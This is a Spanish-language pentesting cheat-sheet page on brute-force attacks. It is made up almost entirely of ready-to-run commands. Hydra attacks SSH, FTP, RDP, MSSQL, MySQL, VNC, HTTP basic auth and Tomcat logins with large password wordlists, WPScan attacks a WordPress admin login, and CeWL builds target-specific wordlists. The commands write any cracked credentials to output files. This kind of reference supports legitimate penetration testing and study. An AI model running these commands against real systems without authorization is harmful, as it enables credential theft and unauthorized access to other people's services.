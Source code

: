 ```yaml
---
layout: article
title: Pentesting - Ataques de fuerza bruta
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h1>Fuerza bruta a servicios</h1>

<h2><b>Hydra</b></h2>

<div class="grid" id="ssh-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u <IP> ssh -o ssh-creds.txt
hydra -l root -P passwords.txt -t 3 -s port <IP> ssh
~~~

<div class="grid" id="ftp-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

~~~bash
hydra -l anonymous -P passwords.txt -v <IP> ftp -o ftp-creds.txt
hydra -L users.txt -P passwords.txt -t 3 -s 21 <IP> ftp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP</div>
</div>

~~~bash
hydra -f -l Administrator -P /usr/share/wordlists/rockyou.txt -o rdp-creds.txt rdp://10.11.1.221
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MSSQL</div>
</div>

~~~bash
hydra -L /usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt 192.168.1.100 mssql -o mssql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MySQL</div>
</div>

~~~bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.1.100 mysql -o mysql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">VNC</div>
</div>

~~~bash
hydra -s 5900 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -t 1 192.168.1.100 vnc -o vnc-creds.txt
~~~
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Basic Auth</div>
</div>

~~~bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-head /webdav/ -o http-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Tomcat</div>
</div>

~~~bash
hydra -C /usr/share/seclist/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 192.168.1.100 http-get /webauth 
~~~

<h2><b>WPScan</b></h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP</div>
</div>

~~~bash
wpscan --url http://192.168.1.100/wp --passwords=passwords.txt --usernames admin -t 20​
~~~

<h1>Misc</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CeWL</div>
</div>
[https://github.com/digininja/CeWL.git](https://github.com/digininja/CeWL.git)

Generador de wordlists que recopila palabras clave de las URL del objetivo (spider del target). Esta lista puede ser utilizada como diccionario para logins en aplicaciones web.

~~~bash
./cewl example.com -d 1 -w example-keywords.txt
~~~
